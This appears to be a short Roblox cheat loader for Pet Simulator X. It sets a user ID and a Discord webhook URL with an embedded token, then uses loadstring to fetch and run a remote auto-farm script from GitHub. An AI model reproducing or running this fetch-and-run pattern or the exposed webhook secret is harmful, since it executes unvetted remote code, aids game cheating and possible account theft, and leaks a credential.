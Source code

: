 _G.UserID = 1421711429
_G.WebHook = "https://discord.com/api/webhooks/1079056928904327228/DR92hnbJQIX-NcGTzgepnwWDWnzz5v1phCOquaHgNjGsN2oggHM8qEPHN7LW3f5U6ORg"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua", true))()
